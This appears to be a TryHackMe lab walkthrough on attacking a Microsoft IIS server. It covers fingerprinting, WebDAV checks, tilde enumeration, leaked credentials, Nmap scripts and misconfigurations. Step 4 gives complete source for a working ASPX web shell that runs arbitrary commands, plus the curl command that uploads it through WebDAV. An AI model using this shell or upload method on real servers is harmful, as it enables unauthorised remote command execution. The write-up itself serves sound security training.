



TryHackMe Medium offensive

# Web Server Attacks II - Attacking IIS

This is the IIS half of the web server series, the follow-up to Web Server Attacks I. The
target is a Microsoft IIS 10.0 host on Windows Server 2019, walked from first scan to shell.
Keywords for this room: IIS fingerprinting, 8.3 tilde enumeration, WebDAV, ASPX web shell,
NTLM auth, SeImpersonatePrivilege, IIS misconfigurations, Nmap NSE.

## Step 1: Fingerprint the server

The IIS version tells you which CVEs apply, because each IIS version maps to a Windows
Server release. IIS 6, 7, and 8 are end of life. IIS 10 is current. Read it from the
headers:

```bash
curl -I http://TARGET
```

The `Server` header shows `Microsoft-IIS/10.0`. `X-Powered-By: ASP.NET` confirms .NET.

## Step 2: Check for WebDAV

WebDAV adds file verbs like PUT and DELETE. If it is on and the folder allows writing, you
may be able to upload a shell. Ask the server what it allows:

```bash
curl -X OPTIONS http://TARGET/webdav -sv 2>&1 | grep -E "Allow:|DAV:"
```

A `DAV:` header with PUT and MOVE means WebDAV is on. An unauthenticated PUT here returned
`401`, so it needs a login. Next step finds one.

## Step 3: Tilde enumeration (find hidden files)

Windows makes short 8.3 names for files, like `BackupFiles` becoming `BACKUP~1`. IIS answers
differently for a real short name than a fake one, so a scanner rebuilds names letter by
letter. This finds files a normal wordlist would miss.

This box only had the Metasploit version of the tool, which does the same job:

```bash
msfconsole
use auxiliary/scanner/http/iis_shortname_scanner
set RHOSTS TARGET
run
```



It found `backup~1`. The full name turned out to be `BackupFiles`, and directory listing was
on, so I could browse it and read a notes file:

```bash
curl http://TARGET/BackupFiles/webdav_notes.txt
```

A developer left the WebDAV login in that backup folder, reachable with no password.

## Step 4: Upload an ASPX web shell

The upload works when three things are all true: WebDAV on, write permission, and Script
Execute on (so IIS runs the `.aspx` instead of showing it as text).

The shell is a small ASPX page that runs a `cmd` value and prints the output:

```csharp
<%@ Page Language="C#" %>
<%
  string cmd = Request.QueryString["cmd"];
  if (!string.IsNullOrEmpty(cmd)) {
    var proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = "/c " + cmd;
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.Start();
    Response.Write("<pre>" + proc.StandardOutput.ReadToEnd() + "</pre>");
  }
%>
```

Upload it with the creds. `--ntlm` is the Windows login handshake:

```bash
curl --ntlm -u 'webdav_user:PASSWORD' -T cmd.aspx http://TARGET/webdav/cmd.aspx
```

`201 Created` means it uploaded. Then run a command:

```bash
curl "http://TARGET/webdav/cmd.aspx?cmd=whoami"
```

## Step 5: What the shell runs as

The command comes back as `iis apppool\defaultapppool`, the default IIS account. Running
`whoami /priv` in a full shell shows `SeImpersonatePrivilege` is enabled. That one privilege
is the path to SYSTEM using tools like PrintSpoofer or GodPotato. Actual privesc is out of
scope for this room, but the point is a default IIS shell has a known way up.

For contrast, real attackers use tiny shells. China Chopper is a 73-byte ASPX line and was
used by the HAFNIUM group in the 2021 Exchange attacks. Defenders hunt for the `eval(`
pattern in ASPX files that should not exist.

## Step 6: Misconfigurations to check

Each of these is a finding on its own, no exploit needed:

- Directory listing on: exposes `.bak`, `.config`, `.log`, `.zip` files. Here `/uploads/`
  showed `config.bak` and `web.config`.



- web.config downloadable: holds passwords and connection strings.
- Verbose errors: leaks internal file paths and versions.
- trace.axd on: shows recent requests, cookies, and tokens you can replay.
- HTTP TRACE on: old XST attack, low severity now but still poor hygiene.
- App pool running as SYSTEM or admin: you already have high privileges, no privesc needed.

## Step 7: Automate the recon with Nmap

Nmap NSE scripts do the manual checks in one pass:

```bash
nmap -sV --script http-methods -p 80 TARGET
nmap --script http-webdav-scan -p 80 TARGET
nmap --script http-ntlm-info --script-args http-ntlm-info.root=/webdav/ -p 80 TARGET
```



`http-methods` lists the allowed verbs and flagged PUT and the WebDAV verbs as risky.
`http-ntlm-info` leaked the hostname and `Product_Version 10.0.17763` (Windows Server 2019)
from one unauthenticated request.

## Key Takeaways

- The IIS version tells you what to attack. It maps to a Windows Server release, so an old version means known CVEs.
- Tilde enumeration finds hidden files a wordlist can't, because Windows makes predictable short names.
- A shell upload needs three things on at once: WebDAV, write access, and script execute.
- A default IIS shell runs as the app pool account, which has SeImpersonatePrivilege. That is the standard path to SYSTEM.
- The easy wins are misconfigs, not exploits. Directory listing, an exposed web.config, and trace.axd are each findings by themselves.
- Nmap NSE does the same recon as manual curl, just faster. Learn it by hand first, then automate.
